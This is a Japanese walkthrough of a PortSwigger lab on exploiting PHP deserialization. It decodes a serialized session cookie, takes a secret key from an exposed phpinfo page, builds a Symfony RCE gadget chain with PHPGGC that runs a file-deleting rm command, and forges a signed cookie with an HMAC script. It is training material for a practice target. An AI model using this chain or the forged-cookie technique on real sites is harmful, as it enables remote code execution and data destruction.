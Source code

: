 # 事前に構築されたガジェット チェーンを使用した PHP デシリアライゼーションの活用

以下のハッキングラボを実施します  
https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-php-deserialization-with-a-pre-built-gadget-chain  
このラボには、署名付き Cookie を使用するシリアル化ベースのセッション メカニズムがあります。また、一般的な PHP フレームワークも使用します。ソース コードにアクセスできませんが、事前に構築されたガジェット チェーンを使用して、 このラボの安全でない逆シリアル化を悪用することができます。

- 1. BurpSuite を起動して Proxy タブからブラウザを立ち上げます
- 2. ハッキングラボにアクセスします
- 3. 一般ユーザーでログインします
- 4. GET /my-account?id=wiener HTTP/2 リクエストを send to repeater します

* 5. クッキーを URL デコード後に、token 部分を base64 でデコードすると、token は PHP オブジェクトであることが確認できます

```
{"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJlYzBtOGl3ZjMxZTB3czJyOTFvZWs5bm1kcTdlNHZ1NiI7fQ==","sig_hmac_sha1":"796c5520b86aa0cde95f0e5240b9a24d11518a52"}
```

```
{"token":"O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"ec0m8iwf31e0ws2r91oek9nmdq7e4vu6";}","sig_hmac_sha1":"796c5520b86aa0cde95f0e5240b9a24d11518a52"}
```

- 6. 手順 4 のレスポンスを見るとデバッグ用 php ファイルが見つかります

```
<!-- <a href=/cgi-bin/phpinfo.php>Debug</a> -->
```

- 7. php ファイルにアクセスすると secret_key が確認できます

```
SECRET_KEY	4hugqo7k67ilzyknpcguvi1eiuyuhq8m
```

- 8. PHPGGC ツールをダウンロードして以下のコマンドを実行。
     carlos のファイルを削除するコマンドオブジェクトを生成します。

```
./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64
```

- 9. 以下のスクリプトで上記オブジェクトに署名します

```
<?php
$object = "OBJECT-GENERATED-BY-PHPGGC";
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
```

- 10. クッキーが出力されるので、これを repeter に送ったリクエストのクッキーに設定して送信します
